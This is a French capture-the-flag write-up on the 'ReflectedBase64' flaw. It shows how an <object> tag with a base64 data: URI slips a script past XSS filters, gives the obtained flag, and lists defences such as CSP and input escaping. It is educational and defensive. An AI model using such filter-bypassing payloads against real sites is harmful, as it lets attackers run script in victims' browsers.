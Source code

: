 # Nom de la faille
ReflectedBase64

## Définition
On peut contourner certains filtres XSS en utilisant une URI de type `data:` encodée en **base64**.

## Détection et Exploitation

```html
<object data="data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4K"></object>
```

Cette charge utile base64 représente :

```html
<script>alert('XSS')</script>
```

Format général de l’URI `data:`

```
data:[<type MIME>][;base64],<contenu encodé>
```

Exemple avec HTML encodé :

```
data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4K
```

- Flag obtenu:

```
928d819fc19405ae09921a2b71227bd9aba106f9d2d37ac412e9e5a750f1506d
```

---

## Comment l’éviter

1. **Utiliser une whitelist d’URL sûres**

Limiter les sources autorisées (par exemple pour `src`, `data`, `href`) uniquement à des domaines ou chemins connus et vérifiés.

2. **Utiliser des iframes pour isoler du contenu externe**

Ne jamais intégrer directement des données potentiellement malveillantes via `<object>` ou `src=data:`. Préférer l'encapsulation dans une iframe sécurisée.

3. **Échapper les entrées utilisateur**

Toutes les données venant des utilisateurs doivent être encodées pour ne pas être interprétées comme du code (HTML, JS).

4. **Mettre en place une Content Security Policy (CSP)**

Empêcher l’exécution de scripts non autorisés, dont les `data:` URIs :

```http
Content-Security-Policy: default-src 'self'; object-src 'none'; base-uri 'none'; script-src 'self';
```

Cela désactive les sources non approuvées, y compris les URIs de type `data:` pour les balises `<object>`, `<iframe>`, etc.

## Notes complémentaires

- Les balises `<object>` et `<iframe>` sont vulnérables si elles peuvent charger des données dynamiques non filtrées.
- Les filtres XSS classiques peuvent être contournés par des techniques comme le base64 ou l’utilisation de schémas URI alternatifs (`data:`, `javascript:`, etc.).

## Ressources

- [Bypassing XSS Filters using Data URIs (Cubalo)](https://cubalo.github.io/blog/2014/01/04/bypassing-xss-filters-using-data-uris/)
- [OWASP XSS Filter Evasion Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html)
- [MDN – Content Security Policy (CSP)](https://developer.mozilla.org/fr/docs/Web/HTTP/Guides/CSP)
